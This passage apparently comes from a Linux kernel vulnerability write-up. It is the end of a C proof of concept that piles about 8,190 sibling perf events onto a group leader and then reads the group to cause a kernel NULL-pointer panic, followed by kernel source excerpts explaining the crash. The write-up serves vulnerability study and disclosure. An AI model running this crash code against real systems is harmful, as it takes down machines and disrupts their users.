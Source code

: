 ``` c
    attr.disabled = 1;
    attr.exclude_kernel = 1;
    attr.read_format = PERF_FORMAT_GROUP;

    // ===== 2. create 1 group leader =====
    group_leader = perf_event_open(&attr, 0, -1, -1, 0);
    if (group_leader == -1) perror_exit("[-] perf_event_open group_leader");

    // ===== 3. create 8000 siblings =====
    attr.read_format = 0;
    for (int child = 0; child < 4; child++) {
        if (fork()) continue;

        for (int i = 0; i < 2000; i++)
            perf_event_open(&attr, ppid, -1, group_leader, 0);
        sleep(-1);
    }

    // ===== 4. create 190 siblings =====
    for (int i = 0; i < 192 - 2; i++)
        perf_event_open(&attr, ppid, -1, group_leader, 0);
    sleep(3); // wait for perf event creation

    // ===== 5. trigger kernel panic =====
    printf("press\n"); getchar();
    read(group_leader, buf, 65536);

    return 0;
}
```

Once set up, we read data from the group leader, invoking `__perf_read()` function in the kernel space. Since the group leader was created with `read_format` set to `PERF_FORMAT_GROUP`, the `perf_read_group()` function is called to handle the read request for group events .
``` c
static ssize_t
__perf_read(struct perf_event *event, char __user *buf, size_t count)
{
    u64 read_format = event->attr.read_format;
    // [...]
    if (read_format & PERF_FORMAT_GROUP)
        ret = perf_read_group(event, read_format, buf);
    // [...]
}
```

Due to `event->read_size` being zero, the `values` will be a NULL pointer, causing a kernel panic when accessed.
``` c
static int perf_read_group(struct perf_event *event,
                   u64 read_format, char __user *buf)
{
    // [...]
    values = kzalloc(event->read_size, GFP_KERNEL);
    values[0] = 1 + leader->nr_siblings; // boom!
    // [...]
}
```
